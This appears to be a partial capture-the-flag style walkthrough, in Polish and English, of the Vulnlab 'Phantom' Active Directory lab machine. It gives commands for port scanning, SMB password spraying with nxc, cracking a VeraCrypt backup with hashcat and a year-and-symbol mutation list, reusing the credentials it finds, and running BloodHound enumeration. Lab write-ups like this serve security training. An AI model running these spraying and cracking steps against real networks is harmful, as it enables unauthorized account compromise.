 # Phantom
Windows, Medium, created by **ar0x4**

![phantom_slide](https://github.com/user-attachments/assets/a2ab0f96-8bf4-4110-95a9-2bfc034c0c0e)

![{5A1A1B58-0E47-4052-8324-6C23854300A5}](https://github.com/user-attachments/assets/61246584-52b1-4638-b0b7-4748d3d90bfa)


```
3/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-21 17:04:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: phantom.vl0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|   DNS_Domain_Name: phantom.vl
|   DNS_Computer_Name: DC.phantom.vl
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49673/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49710/tcp open  msrpc         Microsoft Windows RPC
49850/tcp open  msrpc         Microsoft Windows RPC

```

![{BCAD721E-3AEB-42E1-85D4-6C51620E53A6}](https://github.com/user-attachments/assets/7f4c1df8-f58a-4d1f-9e5f-34e6d6bb8249)

![{DE25AF42-6685-467C-A9B2-12772B0C3FB6}](https://github.com/user-attachments/assets/05e5723a-d852-4950-9ce7-c1c31081de39)

```
nxc smb 10.10.92.153 -u users.txt -p users.txt --continue-on-success 
```
- nic. Leicmy na tego smbshare

![{1CCD2512-41CC-4556-AFDB-C8100A5FB8FF}](https://github.com/user-attachments/assets/f8fed704-15b8-4d0f-aeda-fdfa1e87e03d)

![{A28B7414-B927-45FC-A04C-1D70FA5C6F00}](https://github.com/user-attachments/assets/9f01accd-aa51-4b42-a8a7-1183721ea888)

![phantom](https://github.com/user-attachments/assets/8fe0c48c-3e7a-4345-9f4a-e993fb898b0b)

```
SMB         10.10.92.153    445    DC               [+] phantom.vl\ibryant:<pass from pdf>
```

![{34FA8F29-6268-44F9-B206-BE151E6500B3}](https://github.com/user-attachments/assets/af0f2ed6-a6c0-44ba-a4b0-c6d9a41919bb)

coś tam więcej widać.

![{2776E210-57D0-4427-8EE4-9EC0342FF352}](https://github.com/user-attachments/assets/da315171-9699-4c2a-ba04-83e1a7ef9764)

![{9DD76731-433F-4626-846E-A01CF43F8B74}](https://github.com/user-attachments/assets/49fe189d-fcac-411a-9c5c-3370e9511236)

coś tam ciekawie wygląda. .hc to będzie pliczek od veracrypta.

mamy podpowiedź z opisu na wiki `Should you need to crack a hash, use a short custom wordlist based on company name & simple mutation rules commonly seen in real life passwords (e.g. year & a special character).`

```
.\hashcat.exe -m 13721 X:\SHARED\vulnlab\Phantom\smbdump\IT\Backup\IT_BACKUP_201123.hc X:\SHARED\vulnlab\Phantom\smbdump\IT\phantomlist -r .\clem_and_best66_l33t_speek.rule -w 4 -O
```

![{423C0562-3C25-4DB5-B155-2684C5FFF437}](https://github.com/user-attachments/assets/6a532c9b-9f59-4cb0-a5f9-ee2b04fbd701)

![{7BE95A03-3DE6-485F-838A-3FD29FE68963}](https://github.com/user-attachments/assets/39c46219-16f8-4214-98a7-ea17be694613)

tooooo slow. I will generate my list on weakpass.com

![{073A73AD-2C62-4059-A348-13E503DA2B1B}](https://github.com/user-attachments/assets/03e28a96-a373-4335-b4c9-7f8ac001e7a9)

```
$2 $0 $1 $8
$2 $0 $1 $8 $!
$2 $0 $1 $8 $@
$2 $0 $1 $8 $#
$2 $0 $1 $8 $$
$2 $0 $1 $8 $%
$2 $0 $1 $8 $^
$2 $0 $1 $8 $&
$2 $0 $1 $8 $*
$2 $0 $1 $8 $(
$2 $0 $1 $8 $)
$2 $0 $1 $8 $-
$2 $0 $1 $8 $=
$2 $0 $1 $8 $+
$2 $0 $1 $9
$2 $0 $1 $9 $!
$2 $0 $1 $9 $@
$2 $0 $1 $9 $#
$2 $0 $1 $9 $$
$2 $0 $1 $9 $%
$2 $0 $1 $9 $^
$2 $0 $1 $9 $&
$2 $0 $1 $9 $*
$2 $0 $1 $9 $(
$2 $0 $1 $9 $)
$2 $0 $1 $9 $-
$2 $0 $1 $9 $=
$2 $0 $1 $9 $+
$2 $0 $2 $0
$2 $0 $2 $0 $!
$2 $0 $2 $0 $@
$2 $0 $2 $0 $#
$2 $0 $2 $0 $$
$2 $0 $2 $0 $%
$2 $0 $2 $0 $^
$2 $0 $2 $0 $&
$2 $0 $2 $0 $*
$2 $0 $2 $0 $(
$2 $0 $2 $0 $)
$2 $0 $2 $0 $-
$2 $0 $2 $0 $=
$2 $0 $2 $0 $+
$2 $0 $2 $0
$2 $0 $2 $0 $!
$2 $0 $2 $0 $@
$2 $0 $2 $0 $#
$2 $0 $2 $0 $$
$2 $0 $2 $0 $%
$2 $0 $2 $0 $^
$2 $0 $2 $0 $&
$2 $0 $2 $0 $*
$2 $0 $2 $0 $(
$2 $0 $2 $0 $)
$2 $0 $2 $0 $-
$2 $0 $2 $0 $=
$2 $0 $2 $0 $+
$2 $0 $2 $1
$2 $0 $2 $1 $!
$2 $0 $2 $1 $@
$2 $0 $2 $1 $#
$2 $0 $2 $1 $$
$2 $0 $2 $1 $%
$2 $0 $2 $1 $^
$2 $0 $2 $1 $&
$2 $0 $2 $1 $*
$2 $0 $2 $1 $(
$2 $0 $2 $1 $)
$2 $0 $2 $1 $-
$2 $0 $2 $1 $=
$2 $0 $2 $1 $+
$2 $0 $2 $2
$2 $0 $2 $2 $!
$2 $0 $2 $2 $@
$2 $0 $2 $2 $#
$2 $0 $2 $2 $$
$2 $0 $2 $2 $%
$2 $0 $2 $2 $^
$2 $0 $2 $2 $&
$2 $0 $2 $2 $*
$2 $0 $2 $2 $(
$2 $0 $2 $2 $)
$2 $0 $2 $2 $-
$2 $0 $2 $2 $=
$2 $0 $2 $2 $+
$2 $0 $2 $3 $!
$2 $0 $2 $3 $@
$2 $0 $2 $3 $#
$2 $0 $2 $3 $$
$2 $0 $2 $3 $%
$2 $0 $2 $3 $^
$2 $0 $2 $3 $&
$2 $0 $2 $3 $*
$2 $0 $2 $3 $(
$2 $0 $2 $3 $)
$2 $0 $2 $3 $-
$2 $0 $2 $3 $=
$2 $0 $2 $3 $+
$2 $0 $2 $4
$2 $0 $2 $4 $!
$2 $0 $2 $4 $@
$2 $0 $2 $4 $#
$2 $0 $2 $4 $$
$2 $0 $2 $4 $%
$2 $0 $2 $4 $^
$2 $0 $2 $4 $&
$2 $0 $2 $4 $*
$2 $0 $2 $4 $(
$2 $0 $2 $4 $)
$2 $0 $2 $4 $-
$2 $0 $2 $4 $=
$2 $0 $2 $4 $+
```

starting with this.
```
.\hashcat.exe -m 13721 X:\SHARED\vulnlab\Phantom\smbdump\IT\Backup\IT_BACKUP_201123.hc X:\SHARED\vulnlab\Phantom\smbdump\IT\phantomlist2 -d 1 -w 4 -O
```

![{C63C4B14-2F9D-421D-888A-60E5D697F6FF}](https://github.com/user-attachments/assets/c39508bb-287e-4b0a-b37c-04a611dc2a78)

yeeeeee

```
veracrypt --text \
          --mount IT_BACKUP_201123.hc \
          /media/veracrypt1 \
          --pim=0 \
          --keyfiles="" \
          --password=<cracked passwopord>

```

![{04777C14-BCE7-4707-ACA9-793D58344B5D}](https://github.com/user-attachments/assets/3cea59cf-4c88-48d3-825d-be9e1cd28e34)

![{5428D146-A2E3-4088-AA2A-9AF96AA72392}](https://github.com/user-attachments/assets/93349292-d8c0-4229-9255-597dec9ea678)

![{BC38F83D-271D-4864-BE0F-C8413E554DA9}](https://github.com/user-attachments/assets/452122d8-5e0a-48ad-bc38-f3570f598d0f)

![{2F5D4899-C1FD-4BF8-91E4-38C0942CAE0F}](https://github.com/user-attachments/assets/a70b28e7-33db-4293-ac53-0249a870b417)


ogólnie sporo przeglądanie będzie

![{B10A1380-E344-44D5-B9F1-FD7498C048E3}](https://github.com/user-attachments/assets/e5c9f5f0-dd8a-4838-be69-81f1e1dd044f)

ale sypie.

```
grep -ir password
```

![password](https://github.com/user-attachments/assets/4243d06c-0ee8-41ce-8948-e04038f9231f)

dało jakieś hasło.
```
nxc smb 10.10.92.153 -u users.txt -p '<nasze hasełko>' --continue-on-success

SMB         10.10.92.153    445    DC               [+] phantom.vl\svc_sspr:<nasze hasełko>
```

to trochę enumeracji machnę
```
bloodhound-python -d 'phantom.vl' -u 'svc_sspr' -p '<nasze hasełko>' -ns 10.10.92.153 -dc DC.phantom.vl -c all
```

przy okazji

![{B176AB9A-08E3-4CA9-91DF-55BBB95ABC6A}](https://github.com/user-attachments/assets/095f9875-d0bb-401c-8970-3ac8286a83ab)

![{29D8488C-2C26-456C-A500-C15E66DD4E56}](https://github.com/user-attachments/assets/134eae7e-0932-408f-9d95-082fd91be261)

![{B441CF78-0F98-46C3-9B05-E4F58D0ECAD2}](https://github.com/user-attachments/assets/4e97a5ff-8867-458f-a5dd-89a4b88349eb)

wygląda nietrudno

